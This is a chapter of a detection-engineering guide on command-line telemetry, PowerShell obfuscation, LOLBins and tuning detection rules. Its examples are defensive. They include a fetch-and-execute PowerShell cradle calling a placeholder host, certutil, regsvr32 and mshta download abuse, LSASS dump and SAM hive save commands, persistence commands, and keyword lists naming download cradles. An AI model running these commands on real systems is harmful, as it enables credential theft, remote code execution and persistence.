


# Part VII — Command Line Detection

Command-line telemetry is the single most argued-about data source in detection engineering. It is
cheap to collect, rich in intent, trivially evadable, and the most commonly *broken* field in
production SIEMs due to truncation and parsing failures. This part covers how command-line
analytics actually work, why keyword matching fails as a strategy, and how to build detections that
survive contact with obfuscation, LOLBins, and real user noise.

## 7.1 What a command line actually tells you

[CONCEPT] A command line is the argument string passed to a process at creation time — the
executable path plus everything after it. It is *reported intent*, not *guaranteed behaviour*. A
process can be launched with `whoami /all` and immediately do something entirely unrelated to that
string if it hooks its own imports, or the string itself can be a lie assembled to look benign to a
human reviewer while still parsing correctly to the shell or interpreter that executes it.

Two separate problems live inside "command-line detection":

1. **Obfuscation** — the attacker rewrites a command so a human or a naive string match doesn't
   recognize it, while the interpreter (cmd.exe, PowerShell, bash) still executes it identically.
2. **Legitimate ambiguity** — the exact same string, or a very similar one, appears constantly in
   normal admin, developer, and backup-software activity.

Most failed command-line rules fail because they solve only problem 1 (they catch the obfuscation
pattern) without ever addressing problem 2 (they have no way to separate the attacker's use of the
pattern from IT's routine use of it).

### Telemetry sources for command lines

| Source | Event | Command-line field | Notes |
|---|---|---|---|
| Windows Security auditing | Event ID 4688 | `CommandLine` | Requires "Include command line in process creation events" audit policy; off by default |
| Sysmon | Event ID 1 (Process Create) | `CommandLine` | Also gives `ParentCommandLine`, hashes, `IntegrityLevel`, `OriginalFileName` |
| EDR agents (CrowdStrike, Defender for Endpoint, SentinelOne, etc.) | vendor process-creation event | vendor field name varies | Usually includes parent chain, sometimes full ancestry, sometimes network correlation in the same record |
| Linux auditd | `EXECVE` record | `a0`, `a1`, `a2`... (argv split into numbered fields) | Arguments are space-split into separate fields — reassembly needed for pattern matching |
| Linux sysmon-for-linux / eBPF agents | process exec event | `CommandLine` or `args[]` | Varies by agent; some give full argv array, avoiding truncation |
| Shell history (bash/zsh) | `.bash_history`, auditd `execve` | full command | History files are user-writable and easily cleared — treat as investigative, not detection, source |
| PowerShell | Event ID 4103 (Module logging), 4104 (Script Block logging) | `ScriptBlockText` | Captures the *de-obfuscated* script at execution time — far more valuable than the launching command line |

[ENGINEERING] The single most important row in that table for a detection engineer is 4104. Most
PowerShell obfuscation defeats the process-creation command line but not script block logging,
because script block logging captures the interpreter's view of the code *after* string
concatenation, variable expansion, and sometimes even after deobfuscation of `-EncodedCommand`
blocks, right before execution. If you have budget for exactly one PowerShell telemetry
improvement this year, enable 4104 before you write another PowerShell command-line rule.



## 7.2 Why keyword matching fails

**BAD:**

```
CommandLine contains "base64"
```

This looks reasonable to someone new to detection engineering — Base64 is genuinely common in
malicious PowerShell and shell one-liners. It fails for four separate, compounding reasons:

- **False positive volume.** Legitimate software encodes things in Base64 constantly — CI/CD
  pipelines, backup agents, Exchange/Office scripts, certificate handling, container tooling. On
  any environment with real developer or admin activity this rule generates hundreds to thousands
  of hits a day, and analysts learn to ignore the alert queue it feeds.
- **Trivial evasion.** The string `"base64"` does not need to appear at all. PowerShell accepts
  `-e`, `-en`, `-enc`, `-EnCoDeDcOmMaNd` (case-insensitive parameter matching), and the entire
  parameter can be split across concatenated strings, environment variable expansion, or even typed
  through the pipeline instead of as a CLI flag.
- **No behavioural context.** The rule cannot distinguish `powershell.exe -enc <blob>` launched by
  a signed backup product from the same command launched by `winword.exe` spawning `powershell.exe`
  from a macro five seconds after a phishing email attachment was opened.
- **It teaches the wrong lesson.** Analysts start believing "Base64 = bad," and start missing
  attacks that don't encode anything at all — plenty of LOLBin abuse and living-off-the-land
  discovery commands are plain text.

**BETTER — layered, contextual:**

Combine: encoded/obfuscated PowerShell parameter usage + an unusual parent process for that
pattern + supporting signals (network connection shortly after, non-interactive session, unusual
user/host pairing). No single signal fires the alert; the combination does.

```
(CommandLine matches PowerShell encoded-command pattern, regex-based, not substring)
AND ParentImage NOT IN (known-good launchers for this pattern in this environment)
AND (
    NetworkConnectionWithinNSeconds(process, 30)
    OR ParentImage IN (winword.exe, excel.exe, outlook.exe, wscript.exe, mshta.exe, cmd.exe spawned by office app)
    OR IntegrityLevel == "High" AND User NOT IN (known admin accounts)
)
```

This is illustrative logic, not a runnable query — translate the pattern into your SIEM's syntax
per the worked example in 7.5.

**Hunter's Note:** if your keyword-match rule for "base64" has a stable, low daily volume in your
environment, that's not evidence the rule is good — it's evidence your environment doesn't encode
things much, which means the rule will look great right up until someone runs a two-line
concatenated PowerShell command that never contains the literal string at all.

## 7.3 Obfuscation techniques you will actually see

[DETECTION ENGINEER] Obfuscation exists to defeat the human reviewer and the naive string matcher,
not the interpreter. The interpreter always sees the real command. This is the leverage point: any
telemetry source that captures the interpreter's resolved view (script block logging, syscall-level
argv capture, EDR command emulation) will see through most of this. Any source that only captures
the raw launch string will not.

### String concatenation

```
CONCEPTUAL SAMPLE — cmd.exe
set a=Invoke-
set b=Expression
powershell -c "%a%%b% (New-Object Net.WebClient).DownloadString('http://x/y')"
```

```
CONCEPTUAL SAMPLE — PowerShell
$x = 'Ne' + 'w-Ob' + 'ject'
Invoke-Expression "$x Net.WebClient"
```

Splitting a cmdlet or function name across concatenated substrings defeats any regex anchored to
the literal cmdlet name (`New-Object`, `Invoke-Expression`, `IEX`). It does not defeat script block
logging, because PowerShell logs the string after concatenation resolves, immediately before
execution.

### Character substitution / case randomization

PowerShell parameter binding and cmdlet resolution are case-insensitive, and many parameters accept
abbreviated forms:

```
CONCEPTUAL SAMPLE
pOwErShElL.exe -NoP -w hidden -EP bypass -Enc <base64 blob>
```

`-NoP` for `-NoProfile`, `-EP` for `-ExecutionPolicy`, mixed case throughout. A rule that matches
`-NoProfile` exactly, case-sensitively, misses this trivially. Regex rules must be case-insensitive
and should match on the shortest unambiguous prefix of each parameter, not the full name.

### Encoding layers

Base64 is the common first layer, but attackers stack encodings: Base64 → gzip/deflate compression
→ Base64 again, or Base64 → XOR with a single-byte key → further Base64. `-EncodedCommand` natively
expects UTF-16LE-then-Base64; a compressed payload adds a `IO.Compression.GzipStream` /
`DeflateStream` wrapper that a naive Base64-decode-and-string-search misses because the decoded
bytes are still binary compressed data, not readable text, until decompressed.

```
CONCEPTUAL SAMPLE — decode chain a hunter would replicate
$decoded = [Convert]::FromBase64String($blob)
$stream = New-Object IO.Compression.GzipStream(
    (New-Object IO.MemoryStream(,$decoded)), [IO.Compression.CompressionMode]::Decompress)
# ...read $stream to get the real script text
```

### Environment variable and string reversal tricks

```
CONCEPTUAL SAMPLE — cmd.exe
%COMSPEC:~0,1%md      rem  resolves to first char of ComSpec path, building "cmd" letter by letter
```

```
CONCEPTUAL SAMPLE — reversed string executed via a helper that flips it back
$rev = 'lexE-ekovnI'  ;  $cmd = -join $rev[($rev.Length-1)..0]  # -> 'Invoke-Exec'... (truncated example)
```

Substring extraction from built-in environment variables (`%COMSPEC%`, `%PUBLIC%`, `%APPDATA%`) to
assemble command fragments character-by-character is old (dates back to well-documented cmd.exe
obfuscation from the 2010s) but still shows up because it reliably defeats naive detections and
some AV static string scanners.

### Escaping and quoting abuse

cmd.exe allows caret (`^`) as an escape character anywhere, including inside a keyword:

```
CONCEPTUAL SAMPLE
p^o^w^e^r^s^h^e^l^l.exe -c "..."
```

PowerShell allows backtick escapes and string formatting operators (`-f`) to assemble strings at
runtime. Both patterns are common enough that MITRE ATT&CK groups this family of behaviour under
**T1027 (Obfuscated Files or Information)**, with the command-line-specific sub-behaviours also
overlapping **T1140 (Deobfuscate/Decode Files or Information)** when a stored encoded blob is
decoded at runtime, and **T1059 (Command and Scripting Interpreter)** for the execution vehicle
itself (T1059.001 PowerShell, T1059.003 Windows Command Shell, T1059.004 Unix Shell).

**Detection Autopsy: the Base64 rule that shipped anyway**

*Original logic:* a SOC team, six months into standing up their SIEM, shipped:

```
alert if CommandLine contains "-enc" OR CommandLine contains "-EncodedCommand"
```

*Why it looked reasonable:* it caught two real red-team exercises in testing and looked like a
quick win for PowerShell coverage. Both flags are genuinely common in malicious tooling
(Empire, Cobalt Strike PowerShell stagers, most public PowerShell post-exploitation frameworks
default to `-EncodedCommand`).

*What broke in production:* within a week the rule was firing 40-60 times a day. Root causes: (1)
a major backup vendor's agent invoked scheduled PowerShell maintenance tasks with `-EncodedCommand`
by default; (2) several internally-written deployment scripts wrapped multi-line logic in
`-EncodedCommand` purely to avoid quoting issues in a scheduler, with zero obfuscation intent; (3)
`-enc` also matched unrelated flags in third-party CLI tools that happened to contain that
substring (e.g., a tool with a `--sync` flag misrendered by a case-insensitive substring match
handling non-word-boundary matching incorrectly).

*False negatives, simultaneously:* the rule missed every sample that used `-EncodedCommand`'s
common abbreviation `-e` combined with concatenation-built parameter names, and missed everything
routed through script-block execution without ever touching a `-Enc*` flag at process creation
(e.g., `IEX (New-Object Net.WebClient).DownloadString(...)`), which was the more common pattern in
that org's actual red-team findings.

*Missing context:* the rule had no parent-process condition, no user/host baseline, and no
correlation to network activity — it treated a backup server's 2 a.m. maintenance job identically
to a workstation running PowerShell from an Office child process at 9:47 a.m.

*Revised analytic:* switched to a regex anchored on PowerShell's actual parameter grammar
(`-e`, `-en`, ..., `-EncodedCommand`, case-insensitive, word-boundary-aware) with an allowlist of
known launchers (backup agent's signed binary, specific scheduled task names) suppressed by parent
process + task name, and a *second*, separate high-confidence tier that removed the allowlist
suppression entirely when the parent process was an Office application, a script host
(`wscript.exe`, `mshta.exe`), or an email attachment handler, or when a network connection to a
non-corporate destination occurred within 30 seconds of process start.

*How it was tested:* replayed captured command lines from three prior red-team engagements plus 30
days of production backup-agent and deployment-script traffic against both the old and new logic in
a detection-testing sandbox (no live systems touched).

*Result:* daily volume dropped from 40-60 to 1-3 (nearly all now genuinely worth a look), and the
revised analytic still fired on all three replayed red-team samples, including one that used `-e`
abbreviated form the original rule's exact-string match had never covered.

## 7.4 Living-off-the-land binaries and their command-line signatures

LOLBins are legitimate, signed OS binaries repurposed for download, execution, or defense evasion.
Command-line detection for LOLBins works differently from malware detection: you are not looking
for a "bad" binary, you are looking for a *combination of arguments and context* that is rare for
that binary's normal use.

| Binary | Legitimate use | Abuse pattern | ATT&CK |
|---|---|---|---|
| `certutil.exe` | Certificate/CRL management | `certutil -urlcache -split -f http://... out.exe`, `certutil -decode` for Base64 payload staging | T1105 (Ingress Tool Transfer), T1140 |
| `mshta.exe` | Runs `.hta` applications | `mshta http://...` or `mshta javascript:...` to execute remote script | T1218.005 |
| `regsvr32.exe` | Registers COM DLLs | `regsvr32 /s /n /u /i:http://... scrobj.dll` ("Squiblydoo") | T1218.010 |
| `rundll32.exe` | Runs DLL exports | Calling exported functions from staged DLLs, JavaScript execution via `.dll,RunHTMLApplication` | T1218.011 |
| `wmic.exe` | WMI CLI | Remote process creation, discovery (`wmic process call create`), deprecated in newer Windows but still present in many estates | T1047 |
| `bitsadmin.exe` | Background file transfer | `bitsadmin /transfer` to download payloads persistently and quietly | T1197 |
| `msbuild.exe` | Builds .NET projects | Executing inline C# from a crafted `.csproj` — no separate "malicious" binary needed | T1127 |
| `wscript.exe` / `cscript.exe` | Run VBScript/JScript | Executing dropped `.vbs`/`.js` from phishing attachments | T1059.005, T1059.007 |

[THREAT HUNTER] Do not hunt LOLBins by binary name alone — that produces the same failure mode as
the Base64 keyword rule. Hunt by asking: for *this* binary, in *this* environment, what argument
patterns and parent/child relationships are actually normal, and what's the residual after removing
them? For `certutil.exe`, pull every invocation for 30 days, group by argument set, and you'll
usually find 2-4 legitimate patterns (cert enrollment scripts, a specific management tool) account
for 95%+ of volume — everything outside those clusters is worth individual review.

## 7.5 Worked example: encoded PowerShell downloader with context scoring

**Scenario:** a phishing attachment (Office macro) spawns PowerShell with an encoded command that
decodes to a web download-and-execute pattern.



**Sigma-style detection (illustrative — verify field names against your Sysmon/EDR schema before
deployment):**

```yaml
title: Encoded PowerShell Spawned From Office Application With Network Follow-Up
id: part07-01
status: experimental
description: >
  Detects PowerShell launched with an encoded/obfuscated command parameter where the parent
  process is an Office application, correlated with a network connection shortly after start.
  Designed to avoid the false-positive volume of a bare "-enc" substring match.
logsource:
  category: process_creation
  product: windows
detection:
  selection_parent:
    ParentImage|endswith:
      - '\WINWORD.EXE'
      - '\EXCEL.EXE'
      - '\POWERPNT.EXE'
      - '\OUTLOOK.EXE'
  selection_process:
    Image|endswith: '\powershell.exe'
  selection_encoded:
    CommandLine|re: '(?i)-e(n(c(o(d(e(d(c(o(m(m(a(n(d)?)?)?)?)?)?)?)?)?)?)?)?\s'
  filter_known_admin_tooling:
    ParentCommandLine|contains:
      - 'KnownInternalScriptName1'
      - 'KnownInternalScriptName2'
  condition: selection_parent and selection_process and selection_encoded and not filter_known_admin_tooling
falsepositives:
  - Legitimate Office macros that call PowerShell for approved automation (should be enumerated
    and excluded explicitly, not allowed to suppress the whole rule category)
level: high
tags:
  - attack.t1059.001
  - attack.t1027
  - attack.t1566.001
```

**Companion network-correlation logic (pseudocode, run as a post-filter or a correlation rule in
your SIEM, not part of the Sigma detection itself):**

```
IF alert(part07-01) fires for process P
AND P has a child TCP/TLS connection within 30 seconds of P's start time
AND destination is NOT in (known corporate proxy / CDN allowlist)
THEN escalate to "high confidence" tier, auto-attach network record to case
```

[ANALYST] When this fires, the investigation sequence is: (1) decode the Base64 blob offline in a
sandbox, never execute it locally; (2) check `ParentCommandLine` for the actual document filename
and confirm it matches a real (or suspicious) attachment, not a legitimate internal automation
script that happens to share a parent process; (3) pull DNS/proxy logs for the destination in the
decoded script; (4) check whether script block logging (4104) captured the full de-obfuscated
payload — if so, that record is your ground truth over the process-creation command line.

**Hunt companion — searching for variants that don't trip the rule above:**

The rule above anchors on `-enc` variants and an Office parent. A hunter should separately pull:

- All PowerShell process creations where `CommandLine` length is anomalously short relative to
  script block log length for the same process GUID (indicates the launch string was minimal but
  the executed script was large — classic dot-sourcing or `IEX (irm ...)` pattern with no encoding
  flag at all).
- All processes where `ParentImage` is an Office app and `Image` is *any* interpreter
  (`wscript.exe`, `cscript.exe`, `mshta.exe`, `cmd.exe`) regardless of argument content, sorted by
  rarity of that parent/child pairing over a 90-day baseline.
- Script block log entries (4104) containing `DownloadString`, `DownloadFile`, `IEX`,
  `Invoke-Expression`, `Net.WebClient`, `Net.Http.HttpClient` regardless of what the process-creation
  command line looked like — this catches the case where obfuscation defeated the launch string but
  not the logged script text.

## 7.6 Field truncation and parsing failures — the silent detection killer

**Engineering Reality:** more command-line detections fail in production from truncation and
parsing than from obfuscation. Obfuscation is a known adversary; truncation is a self-inflicted
wound that nobody notices until an incident review shows the data was cut off the whole time.

Common failure points:

- **Sysmon/Windows Event Log field limits.** Extremely long command lines (large `-EncodedCommand`
  blobs, long argument lists from build tooling) can be truncated by the logging pipeline, by the
  forwarder, or by an index/field-length cap in the SIEM itself — not by Sysmon, which does not
  truncate CommandLine, but by downstream collection agents or ingestion pipelines that apply their
  own field-size limits. A regex anchored near the end of an expected pattern silently stops
  matching once the payload exceeds the truncation point, and the alert simply never fires — no
  error, no partial match, nothing in the pipeline complains.
- **Forwarder/agent-level line length caps.** Universal forwarders and some syslog relays have
  historical default max message sizes (varies by product/version) that split or drop the tail of
  long messages, and multi-line command lines (containing embedded newlines from here-strings or
  multi-line scripts) can be mis-parsed as multiple separate events.
- **auditd argv splitting.** Linux auditd's `EXECVE` record splits arguments into `a0`, `a1`, `a2`,
  ... fields rather than one string. A detection written as a single regex against "the command
  line" simply does not exist as one field — it must be reassembled from the numbered arguments (or
  matched per-argument), and any rule authored against a hypothetical single-string field will
  never match real auditd data at all.
- **Quoting and escaping asymmetry between capture and storage.** A command line containing nested
  quotes, embedded JSON, or PowerShell here-strings can be captured differently depending on
  whether the collector captures the raw Win32 process command-line buffer (Sysmon's approach) or a
  re-serialized version (some EDR agents normalize/re-quote arguments), which changes byte-for-byte
  string matches even though the executed command was identical.
- **Case, locale, and encoding normalization.** SIEM ingestion pipelines sometimes lowercase or
  Unicode-normalize fields during indexing. If your detection logic assumes the ingested string
  matches the raw captured string exactly, a rule that passed testing against raw Sysmon XML can
  fail after the same event is ingested and normalized.

[ENGINEERING] The practical fix is not "write better regex" — it's validating your pipeline's
actual field-length ceiling and normalization behaviour empirically, with a deliberately long
synthetic command line pushed through the full path (agent → forwarder → SIEM index → detection
engine) before you trust any command-line rule in production. Test the boundary, don't assume it.

**SOC Management View:** command-line truncation is invisible in dashboards — a rule that never
fires because its trigger pattern lives past the truncation point looks identical, in metrics, to a
rule that correctly has nothing to alert on. Budget for periodic synthetic-event testing (inject a
known long/obfuscated command line through the full pipeline on a schedule) as a standing detection
health check, not a one-time validation. This is cheap — a handful of hours a quarter — against the
cost of discovering during an incident review that a "deployed" detection had a structural zero
percent true-positive rate for six months.

## 7.7 Credential discovery, system discovery, and persistence patterns

Command-line telemetry is also where most discovery and persistence activity leaves its clearest
trace, because these techniques are usually native OS tooling, not custom malware.

| Behaviour | Example command pattern (CONCEPTUAL SAMPLE) | ATT&CK |
|---|---|---|
| Credential discovery — LSASS access prep | `procdump.exe -ma lsass.exe out.dmp`, `rundll32 comsvcs.dll, MiniDump <lsass PID> out.dmp full` | T1003.001 |
| Credential discovery — SAM/registry hives | `reg save HKLM\SAM sam.hive`, `reg save HKLM\SYSTEM system.hive` | T1003.002 |
| Credential discovery — browser/cred stores | `powershell -c "Get-ChildItem -Path $env:LOCALAPPDATA\...\Login Data"` | T1555.003 |
| System discovery | `systeminfo`, `whoami /all`, `net config workstation`, `wmic csproduct get name` | T1082 |
| Network discovery | `arp -a`, `net view`, `nltest /dclist:`, `ipconfig /all` | T1016, T1018 |
| Persistence — scheduled task | `schtasks /create /sc onlogon /tn "Update" /tr "..."` | T1053.005 |
| Persistence — registry run key | `reg add HKCU\...\Run /v Update /t REG_SZ /d "..."` | T1547.001 |
| Persistence — WMI event subscription | `wmic /namespace:\\root\subscription PATH __EventFilter CREATE` | T1546.003 |

None of these commands are individually suspicious — `whoami /all` and `reg save` run constantly
in legitimate admin and backup workflows. The signal is in *sequencing and combination*: discovery
commands run back-to-back within seconds by the same process ancestry, on a host where that user
doesn't normally run them, followed within minutes by a credential-access or persistence command
from the same session. A detection engineer builds this as a sequence/correlation rule (multiple
distinct discovery command patterns from the same process lineage within an N-minute window),
not as individual per-command alerts, because per-command alerts on this table alone will drown any
SOC in noise within a day.

> **[SCREENSHOT PLACEHOLDER — CONTROLLED LAB]** — Sysmon Event ID 1 process-creation log showing a
> discovery-command sequence (`whoami /all` → `net config workstation` → `reg save HKLM\SAM`)
> captured from the same parent process GUID within a short time window on an isolated lab
> Windows host, illustrating the `CommandLine`, `ParentCommandLine`, and `ProcessGuid` fields used
> to correlate the sequence.

> **[SCREENSHOT PLACEHOLDER — CONTROLLED LAB]** — Linux auditd `EXECVE` record from `auditd.log`
> on an isolated lab host, showing the `a0`/`a1`/`a2`... argument-splitting behaviour described in
> 7.6, to illustrate why single-field regex assumptions fail against real auditd output.

## 7.8 Building the detection: a tuning checklist

[DETECTION ENGINEER] Before shipping any command-line rule, work through:

1. **Anchor on grammar, not substrings.** Match the interpreter's actual parameter-parsing rules
   (case-insensitive, abbreviation-aware, escape-aware) rather than one literal string.
2. **Add at least one contextual dimension.** Parent process, user/session type, host role, or
   network follow-up — something that separates the pattern's malicious use from its legitimate
   use in *your* environment specifically.
3. **Baseline before deploying.** Run the candidate logic read-only against 30-90 days of
   production data and characterize every hit before it becomes a live alert.
4. **Test the truncation boundary.** Push a deliberately long/obfuscated synthetic command line
   through the full ingestion pipeline and confirm the field arrives intact at the detection layer.
5. **Prefer the de-obfuscated telemetry when it exists.** Script block logs, EDR command
   emulation, and decoded-at-runtime capture beat raw launch-string matching whenever available.
6. **Write the hunt query alongside the rule.** For every rule, have a broader, lower-precision
   hunt query that a human runs periodically to catch what the rule's guardrails intentionally
   excluded.
7. **Plan the failure mode.** Decide explicitly what happens when the parent-process or
   network-correlation signal is missing (asset with no EDR, air-gapped segment, disabled auditing)
   — a rule with a hard AND on a signal that's sometimes absent has a silent blind spot, not just
   reduced confidence.

## References

- MITRE ATT&CK: T1059 (Command and Scripting Interpreter) and sub-techniques T1059.001,
  T1059.003, T1059.005, T1059.007
- MITRE ATT&CK: T1027 (Obfuscated Files or Information)
- MITRE ATT&CK: T1140 (Deobfuscate/Decode Files or Information)
- MITRE ATT&CK: T1218 (System Binary Proxy Execution) and sub-techniques T1218.005, T1218.010,
  T1218.011
- MITRE ATT&CK: T1003 (OS Credential Dumping), T1082 (System Information Discovery), T1016/T1018
  (Network discovery), T1053.005 (Scheduled Task), T1547.001 (Registry Run Keys), T1546.003
  (WMI Event Subscription)
- Microsoft Learn: Sysmon documentation (Event ID 1 — Process Create fields)
- Microsoft Learn: PowerShell logging documentation (Module Logging / Script Block Logging, Event
  IDs 4103 and 4104)
- Sigma project documentation (rule schema and detection logic conventions referenced in the
  worked example)
